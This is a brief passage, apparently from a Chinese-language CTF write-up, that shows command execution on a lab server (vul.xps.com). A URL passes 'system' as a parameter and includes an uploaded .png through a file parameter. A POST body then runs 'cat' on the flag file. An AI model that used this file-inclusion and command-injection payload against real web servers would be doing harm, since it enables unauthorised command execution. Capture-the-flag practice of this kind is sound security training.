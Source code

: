 ![](imgs/16036358617110.png) 

貌似成功了，执行命令看看：

```
http://vul.xps.com:30010/?0=system&file=./upload/357481464.png
```

POST 内容如下：

```bash
1=cat /f14a4a4a4a444g
```

![](imgs/16036360607524.png) 

